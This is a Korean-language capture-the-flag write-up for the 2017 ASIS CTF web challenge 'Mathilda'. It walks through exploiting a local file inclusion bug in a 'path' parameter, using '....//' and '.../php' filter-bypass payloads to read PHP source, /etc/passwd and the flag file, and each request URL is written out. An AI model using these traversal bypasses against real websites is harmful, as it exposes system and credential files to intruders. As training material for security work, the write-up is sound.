 ==============================================================
[2017_asisctf] [web] Mathilda
==============================================================


문제내용
==============================================================

Mathilda learned many skills from Leon, now she want to use them!


문제 풀이
==============================================================

해당 페이지에 접속하면 "Welcome to home"이라는 문구와 함께 이미지 파일만 존재한다.

소스보기를 하면 "<!-- created by ~rooney -->"라는 주석이 존재한다.
"~rooney"라는 디렉토리로 접속을 시도하면 정상적으로 접속이 가능하고, 마틸다 사진과 함께 "Welcome to rooney page"라는 페이지가 출력된다.

.. code-block:: text

    http://178.62.48.181/~rooney/index.php

file이라는 링크가 걸려있어 클릭하게 되면, path라는 파라미터에 rooney라는 값을 통해 메시지가 출력된다.

.. code-block:: text

    http://178.62.48.181/~rooney/index.php?path=rooney

보아하니, path 파라미터 상에 lfi가 가능한 것으로 보인다.
먼저 index.php를 확인하기 위해 path에 "../index.php"를 넣어보니 "Security failed"라는 에러를 출력한다.

.. code-block:: text

    http://178.62.48.181/~rooney/index.php?path=../index.php


".php" 확장자에 대해 제한이 걸려있는 것으로 보인다. 
그럼 하위 체크에 대한 필터링이 있는 지 확인하기 위해 rooney라는 파일을 "path=../files/rooney"로 확인해본다.
확인 결과, 정상적으로 rooney 내용을 확인할 수 없었으며, replace가 있는 것으로 보인다.

.. code-block:: text

    http://178.62.48.181/~rooney/index.php?path=../files/rooney



"../"을 "....//"으로 바꾸고 입력한 결과, 정상적으로 rooney파일을 확인할 수 있었다.

.. code-block:: text

    http://178.62.48.181/~rooney/index.php?path=....//files/rooney


이걸 이용해서 "index.php"도 "index.../php"로 바꾸고 입력한 결과 정상적으로 php 소스코드를 확인할 수 있었다.

.. code-block:: text

    http://178.62.48.181/~rooney/index.php?path=....//index.../php



'''
난 여기서 index.php 상에 플래그가 있을 줄 알았으나, 해당 페이지에는 플래그가 없었다. 
그래서 다른 파일을 확인해야 하는 줄 알고, 먼저 index.html을 확인하기 위해 "....//....//index.html"을 입력했으나, 확인이 불가능했다.

여기서부터 게싱이나 인터넷 검색이 필요한 건가? 해서 삽질을 계속했으나... 결국 못찾음...
'''


해당 페이지가 rooney계정 페이지라는 것으로 추측하고, /etc/passwd를 읽기 위해 path상에 lfi를 진행해보자.

.. code-block:: text

    http://178.62.48.181/~rooney/index.php?path=....//....//....//....//etc/passwd

    'rooney:x:1000:1000:,,,:/home/rooney:/bin/false'
    'th1sizveryl0ngus3rn4me:x:1001:1001:,,,:/home/th1sizveryl0ngus3rn4me:/bin/bash'

rooney 계정말고도 th1sizveryl0ngus3rn4me라는 계정이 존재하는 걸 확인하였고 해당 디렉토리 상에 flag.php를 확인한 결과 플래그를 획득할 수 있었다.

.. code-block:: text

    http://178.62.48.181/~rooney/?path=....//....//....//....//home/th1sizveryl0ngus3rn4me/public_html/flag.../php
